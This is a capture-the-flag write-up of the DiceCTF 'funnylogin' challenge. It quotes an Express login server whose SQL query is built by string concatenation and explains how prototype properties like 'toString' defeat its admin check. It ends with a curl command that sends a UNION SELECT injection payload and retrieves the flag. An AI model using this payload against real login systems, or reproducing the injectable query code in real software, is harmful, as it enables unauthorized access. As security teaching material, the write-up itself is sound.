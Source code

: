 There is an app.js file in the attachment with the following code:
```const express = require('express');
const crypto = require('crypto');

const app = express();

const db = require('better-sqlite3')('db.sqlite3');
db.exec(`DROP TABLE IF EXISTS users;`);
db.exec(`CREATE TABLE users(
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT
);`);

const FLAG = process.env.FLAG || "dice{test_flag}";
const PORT = process.env.PORT || 3000;

const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});

app.listen(PORT, () => console.log(`web/funnylogin listening on port ${PORT}`));
```
In this code, the server creates 100000 random users and passwords and stores them in a "users" array and in a SQL database:
```
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));  
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);
```
Then, it chooses one of the users at random and makes it administrator:
```
const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];  
isAdmin[newAdmin.user] = true;
```
This if statement needs to be manipulated in order to retrieve the flag: 
```
if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));  
        }
```
We tried giving the username as "isAdmin" and the password as '1=1' and it gave us "nice try".
Then we gave an SQL query and it returned "Only admins allowed"
```
UNION SELECT username FROM users
```
We weren't able to solve it, but then we found out that any js object has a prototype, and so we do this 
```
obj = {};
console.log(Boolean(obj["__proto__"])); // true
```
Now, we gotta use SQL injection for the query to return any value and then use the object functions to make isAdmin[user] yield true

Alternatively, another approach could be to try values which yield true in the if statement, and we do that by trying this in the terminal:
We realised that there are many values which will yield true in a JavaScript if statement,so we try this:
```
> const isAdmin = {}
undefined
> isAdmin['asdf'] = true
true
> isAdmin.
isAdmin.__proto__             isAdmin.constructor           isAdmin.hasOwnProperty        isAdmin.isPrototypeOf         isAdmin.propertyIsEnumerable  
isAdmin.toLocaleString        isAdmin.toString              isAdmin.valueOf

isAdmin.asdf
```
We see recommended values for using isAdmin as a function and access them as object attributes:
```
isAdmin['toString']
[Function: toString]
> Boolean(isAdmin['toString'])  
true
```

Finally, we give a curl reuqest to retrieve the flag:
```
curl https://funnylogin.mc.ax/api/login -d "user=toString&pass='+UNION+SELECT+1--+-"  
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
```

References: 
https://7rocky.github.io/en/ctf/other/dicectf/funnylogin/

